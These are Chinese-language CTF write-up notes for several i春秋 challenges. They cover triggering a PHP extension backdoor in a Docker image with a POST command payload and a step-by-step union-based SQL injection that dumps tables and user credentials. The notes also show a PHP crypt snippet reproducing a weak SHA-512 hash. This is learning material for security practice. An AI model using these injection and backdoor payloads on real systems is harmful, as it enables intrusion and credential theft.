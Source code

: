 最后爆出admin和MyIchunq1uSuperL0ng&&SecurePa$$word，登录后就有了flag

[大佬的视频解析](https://www.ichunqiu.com/course/56483)

## nothing (i春秋)

下载完tar文件，load进docker镜像里，`docker load < backdoor.tar`，启动容器并进入镜像`docker exec -it 65109cea4812 /bash/bin`

![image](http://note.youdao.com/yws/res/881/41FC2E36761B4B598C1668F3DA559FB3)

https://www.ichunqiu.com/course/56341

https://github.com/akamajoris/php-extension-backdoor

post： string=echo `cat /var/www/html/flag.php`



## try

1. 查看源码可以看见/level.php/?name=guest，尝试`?name=guest'and'1'='1`返回正确，`?name=guest'and'1'='2`返回异常，发现注入，`?name=guest'+order+by+1%23`返回正常，`?name=guest'+order+by+2%23`返回失败，说明字段数只有一列

2.爆破
```
?name=-1' union select database()%23 //爆破数据库，ctf

?name=-1' union select group_concat(table_name) from information_schema.tables where table_schema='ctf'%23 //爆破表，token,user

?name=-1' union select group_concat(column_name) from information_schema.columns where table_name='user'%23 //爆破列，username,password,level

?name=-1' union select concat(username,0x23,password,0x23,level) from user limit 0,1%23 //爆破值，password得到一串码
```
$6$rounds=66$nHxhhCl/k9nL5Df47FWdXFZIjRgzV2gXmVdHybywlQ3RIQ/2FvUM/L1y3mgnUBRvJNw9I0Qc5uRbc6EUwxB87/，和reset.php里一致

3.重置密码，在reset_do.php输入在数据库爆出的验证码，显示token不正确，需要重新获取，果然回到数据库，失败一次后数据库token被清空，需求在reset.php重新获取，所以只能利用注入爆破验证码


4.在reset.php的源码中有提示

![image](http://note.youdao.com/yws/res/927/82CB36AC77FB402485EEFBFBD95D0C65)

经过搜索找到这个php crypt的share12加密算法，rounds=5000代表算法循环5000次，当指定次数小于1000时，也会最低循环1000次，所以这里说程序员用错了算法

![image](http://note.youdao.com/yws/res/925/2EFC96B2C08C48E9878469B17F4B7671)

经验证，以下通过sha512加密得到的与题目一致，这里出题人写的博客记录了这个漏洞，http://www.91ri.org/14547.html

```
<?php
echo 'SHA-512:' . crypt('bctf2016', '$6$rounds=66') . "\n";
?>
```
